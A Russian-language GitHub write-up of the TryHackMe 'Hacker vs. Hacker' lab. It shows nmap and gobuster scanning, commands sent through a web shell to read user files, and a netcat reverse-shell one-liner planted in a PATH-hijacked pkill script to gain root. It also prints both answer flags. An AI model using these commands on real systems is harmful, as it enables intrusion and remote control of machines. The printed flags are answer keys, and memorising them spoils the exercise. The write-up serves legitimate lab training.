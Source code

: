 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Hacker vs. Hacker](https://tryhackme.com/r/room/hackervshacker) 

Всего 1 заданиe:
## Задание 1
Сервер этой рекрутинговой компании, похоже, был взломан, и хакер свел на нет все попытки администраторов починить машину. Они не могут ее выключить (они потеряют SEO!), так что, может быть, вы сможете помочь?
### Ответьте на вопросы ниже
Что такое флаг user.txt?
```commandline
nmap -sC -sV <IP>
gobuster dir --url http://<IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 32 -x txt,php,html
# http://<IP>/upload.php
# http://<IP>/cvs/shell.pdf.php
http://<IP>/cvs/shell.pdf.php?cmd=whoami
http://<IP>/cvs/shell.pdf.php?cmd=cat /home/lachlan/user.txt
ssh lachlan@<IP>

```
```commandline
thm{af7e46b68081d4025c5ce10851430617}
```
Что такое флаг proof.txt?
```commandline
http://<IP>/cvs/shell.pdf.php?cmd=ls -la /home/lachlan
http://<IP>/cvs/shell.pdf.php?cmd=cat /home/lachlan/.bash_history
http://<IP>/cvs/shell.pdf.php?cmd=cat /etc/cron.d/persistence
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <my_own_IP> 1234 >/tmp/f" > /home/lachlan/bin/pkill; chmod +x /home/lachlan/bin/pkill
nc -lvnp 1234
cat /root/root.txt
```
```commandline
thm{7b708e5224f666d3562647816ee2a1d4}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)